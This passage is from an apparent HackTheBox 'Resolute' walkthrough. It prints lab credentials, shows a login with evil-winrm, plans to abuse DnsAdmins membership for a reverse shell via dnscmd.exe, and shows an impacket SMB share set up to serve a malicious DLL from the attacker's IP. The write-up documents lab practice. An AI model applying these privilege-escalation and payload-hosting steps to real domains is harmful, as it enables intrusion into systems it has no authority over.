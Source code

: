 > ryan:Serv3r4Admin4cc123!

Logging in with them using `evil-winrm` works like a charm. I find a note on ryan's Desktop, and then check which groups I'm a part of.

```ps
*Evil-WinRM* PS C:\Users\ryan\Documents> type ../Desktop/note.txt
Email to team:

- due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute
```
![pic](/images/htb/resolute/3.png)

Since ryan is a part of the group MEGABANK\DnsAdmins, we can run some dns commands with Administrator privileges. So while there may be hidden scripts to misuse to escalate privileges, I'm just going to open a reverse shell using `dnscmd.exe`.

### DNSAdmin to Domain Admin
Great resource for [DnsAdmins to SYSTEM](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
#### Preparing the Payload
I first check my ip with `ifconfig`, and it's 10.10.14.66 in the tun0 interface (because of openvpn).

![pic](/images/htb/resolute/4.png)

 
#### Run an SMB Share
Host the DLL with an SMB share.

```shell
root@kali:~/HackTheBox/Resolute# smbserver.py -smb2support resolute $(pwd)
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
